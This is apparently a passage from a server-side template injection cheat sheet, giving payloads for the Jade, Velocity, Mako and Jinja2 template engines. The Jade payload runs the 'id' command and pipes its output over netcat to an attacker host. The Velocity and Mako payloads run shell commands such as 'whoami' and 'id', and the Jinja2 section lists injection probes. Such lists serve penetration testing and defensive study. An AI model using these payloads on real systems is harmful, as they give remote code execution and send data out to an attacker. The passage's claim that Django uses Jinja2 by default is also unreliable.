 ## Jade / Codepen

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

## Velocity

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

## Mako

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

## Jinja2

[Official website](http://jinja.pocoo.org/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

### Basic injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on Flask application.

### Template format

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

